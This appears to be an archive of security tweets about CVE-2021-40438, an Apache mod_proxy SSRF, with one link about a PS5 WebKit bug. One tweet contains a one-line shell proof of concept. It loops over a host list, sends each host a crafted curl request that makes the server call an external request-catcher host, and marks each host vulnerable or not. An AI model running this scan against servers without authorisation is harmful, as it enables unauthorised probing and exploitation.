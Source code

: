 * https://www.psxhax.com/threads/ps5-webkit-also-affected-by-use-after-free-vulnerability-cve-2021-30858.10279/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1449120404178563072 _at 2021-10-15, 21:10:02_**
<blockquote>
CVE-2021-40438 Apache mod_proxy SSRF 🔥

✅One Liner POC :
cat file.txt | while read host do;do curl --path-as-is --insecure "$host/?unix:(7701 A's here) | "https://t.co/VOG5gPgWOE" | grep "request caught" &amp;&amp; echo "$host \033[0;31mVuln\n" || echo "$host \033[0;32mNot\n";done
</blockquote>

* https://bugbounty.requestcatcher.com/ssrf

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>141</code></td>
</tr></table>

---

# _mattata
**https://twitter.com/_mattata/status/1449020783989297167 _at 2021-10-15, 14:34:11_**
<blockquote>
CVE-2021-40438 Apache SSRF as a one-liner. https://t.co/RG69SAptTM
</blockquote>

<table><tr>
<td><img src="pictures/359e9bb7ec0dbc8cebf1aafaee7b6bb2c916765728f1998a3df97d11d9a0814b.jpg" alt="359e9bb7ec0dbc8cebf1aafaee7b6bb2c916765728f1998a3df97d11d9a0814b.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>396</code></td>
</tr></table>

---